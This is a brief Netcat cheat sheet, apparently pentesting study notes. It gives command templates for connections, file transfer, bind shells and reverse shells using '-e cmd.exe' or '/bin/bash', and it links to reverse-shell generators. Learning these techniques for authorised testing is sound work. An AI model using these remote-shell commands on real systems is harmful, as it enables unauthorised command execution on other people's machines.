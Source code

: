 - Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
- Netcat is available for both *NIX and Windows operating systems, consequently making i extremely useful for cross-platform engagements.

```
nc IP PORT - connection to a port
nc -lnvp PORT - listener
nc -lnvp PORT > FILE - nc -nv IP PORT < FILE - send a file to a listener
nc -u PORT - for udp
```

# Bind Shell
A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.
```
nc -lnvp PORT -e cmd.exe or -c /bin/bash - on target machines
nc -nv IP PORT - on attacker machine
```

# Reverse Shell
A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.
```
nc -lnvp PORT - on attacker machine
nc -nv IP PORT -e cmd.exe or -e /bin/bash
```

# Cheatsheet
- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/
- https://www.revshells.com/ - Reverse Shell Generator